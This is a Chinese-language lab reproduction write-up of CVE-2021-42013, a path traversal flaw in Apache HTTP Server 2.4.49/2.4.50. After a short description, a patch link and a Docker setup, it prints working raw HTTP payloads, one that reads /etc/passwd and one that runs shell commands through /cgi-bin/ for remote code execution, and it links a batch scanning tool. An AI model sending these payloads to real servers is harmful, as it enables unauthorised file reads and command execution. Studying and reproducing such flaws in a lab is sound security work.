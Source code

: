 本次漏洞编号为：`CVE-2021-42013`
##漏洞简介
Apache HTTP Server是美国阿帕奇（Apache）基金会的一款开源网页服务器。该服务器具有快速、可靠且可通过简单的API进行扩充的特点。

Apache HTTP Server 存在路径遍历漏洞，该漏洞源于发现 Apache HTTP Server 2.4.50 版本中对 CVE-2021-41773 的修复不够充分。攻击者可以使用路径遍历攻击将 URL 映射到由类似别名的指令配置的目录之外的文件。如果这些目录之外的文件不受通常的默认配置“要求全部拒绝”的保护，则这些请求可能会成功。如果还为这些别名路径启用了 CGI 脚本，则可以允许远程代码执行。
##漏洞公布
目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-apache-httpd-pathtrv-LAzg68cZ
##影响版本
Apache HTTPd 2.4.49/2.4.50版本

##环境搭建过程
用docker一键搭建
```html
sudo docker pull blueteamsteve/cve-2021-41773:no-cgid

sudo docker run -dit -p 8080:80 blueteamsteve/cve-2021-41773:no-cgid
```

![](https://nc0.cdn.zkaq.cn/md/5492/4ac2741a0985508759017b18835e9472_70995.png)
##漏洞验证过程
目录遍历payload，读取passwd文件
```html
GET /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd HTTP/1.1
Host: 192.168.123.130:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en;q=0.7
Cookie: seraph.confluence=524289%3A0c7b1f76339049133e306426161621fb136996fc
If-None-Match: "2d-432a5e4a73a80"
If-Modified-Since: Mon, 11 Jun 2007 18:53:14 GMT
Connection: close


```
##复现结果

![](https://nc0.cdn.zkaq.cn/md/5492/d9092f908009f9f2f09e6db30490439f_93276.png)

其实根据这个漏洞还能RCE的，但是因为我环境有点问题无法复现，由于复现难度不高，所以就贴图了，给个payload就好了
```html

POST /cgi-bin/%2e%%32%65/%2e%%32%65/%2e%%32%65/%2e%%32%65/%2e%%32%65/bin/sh HTTP/1.1
Host: host
Connection: close
Content-Length: 13
 
echo;ifconfig
```

由此可见，该漏洞继上次的`CVE-2021-41773`漏洞修复并不完善，所以才导致了本次漏洞的发生！

一个图片总结这次ApacheHTTPd 2.4.50版本修复不完善。
（图片是盗inbug的哈哈哈哈，完美的诠释了本次漏洞的修复哈哈哈哈）
![](https://nc0.cdn.zkaq.cn/md/5492/54f8c00f449e2c110fdd8432af86ddeb_47119.png)
##此外，Inbug实验室还提供了批量多线程检测
Apache 2.4.49 (CVE-2021-41773)
Apache 2.4.50 (CVE-2021-42013)
Github地址：
https://github.com/inbug-team/CVE-2021-41773_CVE-2021-42013
![](https://nc0.cdn.zkaq.cn/md/5492/8a54b44b75826d88dbea51723e21677a_49011.png)

![](https://nc0.cdn.zkaq.cn/md/5492/7ab95f5ec5f4e1015b07db2e097a3066_99148.png)